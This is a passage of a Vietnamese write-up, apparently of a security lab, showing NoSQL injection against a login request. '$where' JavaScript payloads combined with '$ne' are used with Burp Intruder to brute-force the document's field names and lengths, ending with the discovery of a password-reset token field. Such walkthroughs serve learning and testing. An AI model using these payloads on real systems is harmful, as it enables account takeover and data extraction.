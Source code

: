Tiếp theo làm một phép thử khác như sau:  

```
{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[1].length==0) return 1; else 0;}"}
>>> Invalid

{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[1].length!=0) return 1; else 0;}"}
>>> Account locked
```

Nhận thấy ta có thể dùng cách này để truy xuất độ dài field name và hơn thế nữa là bruteforce để lấy fieldname.  
Giờ send req trên tới Intruder của Burpsuite và bắt đầu Bruteforce:

Dựa vào phản hồi là suy luận thu được kết quả:
```
Object.keys(this)[0].length : 3
Object.keys(this)[1].length : 8
Object.keys(this)[2].length : 8
Object.keys(this)[3].length : 5
Object.keys(this)[4].length : 10
```

Đã có độ dài từng field, giờ sửa req như sau để truy xuất từng ký tự trong fieldname:

```
{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(Object.keys(this)[1][0]=='a') return 1; else 0;}"}
```

Sau khi Bruteforce thu được kết quả:

```
Object.keys(this)[0] : _id
Object.keys(this)[1] : username
Object.keys(this)[2] : password
Object.keys(this)[3] : email
Object.keys(this)[4] : pwResetTkn
```

Vẫn dùng kỹ thuật tương tự để tìm độ dài của `email`, `pwResetTkn` thôi. Vì cần `reset password` và đã biết username nên không cần tốn thời gian tìm 2 field trên.

```
{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(this.email.length==0) return 1; else 0;}"}

{"username":"carlos","password":{"$ne":""}, "$where":"function(){if(this.email[0]=='a') return 1; else 0;}"}
```

```
email lenght: 25
pwResetTkn length: 16
```
